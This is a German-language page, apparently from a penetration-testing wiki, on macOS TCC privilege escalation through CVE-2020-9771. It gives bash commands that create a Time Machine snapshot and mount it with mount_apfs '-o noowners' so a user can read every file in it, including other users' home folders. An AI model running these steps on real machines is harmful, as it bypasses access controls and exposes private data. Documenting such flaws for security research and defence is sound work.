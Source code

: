 ## TCC - Root-Rechteausweitung

### CVE-2020-9771 - mount_apfs TCC-Umgehung und Rechteausweitung

**Jeder Benutzer** (auch unprivilegierte) kann einen Time Machine-Snapshot erstellen und einbinden und **auf ALLE Dateien** dieses Snapshots zugreifen.\
Die **einzige Berechtigung**, die benötigt wird, ist, dass die verwendete Anwendung (wie `Terminal`) **Vollzugriff auf die Festplatte** (FDA) benötigt (`kTCCServiceSystemPolicyAllfiles`), was von einem Administrator gewährt werden muss.
```bash
# Create snapshot
tmutil localsnapshot

# List snapshots
tmutil listlocalsnapshots /
Snapshots for disk /:
com.apple.TimeMachine.2023-05-29-001751.local

# Generate folder to mount it
cd /tmp # I didn it from this folder
mkdir /tmp/snap

# Mount it, "noowners" will mount the folder so the current user can access everything
/sbin/mount_apfs -o noowners -s com.apple.TimeMachine.2023-05-29-001751.local /System/Volumes/Data /tmp/snap

# Access it
ls /tmp/snap/Users/admin_user # This will work
```
Eine detailliertere Erklärung kann [**im Originalbericht**](https://theevilbit.github.io/posts/cve_2020_9771/)** gefunden werden.**

## Sensible Informationen

Dies kann nützlich sein, um Privilegien zu eskalieren:

{{#ref}}
macos-files-folders-and-binaries/macos-sensitive-locations.md
{{#endref}}

{{#include ../../banners/hacktricks-training.md}}
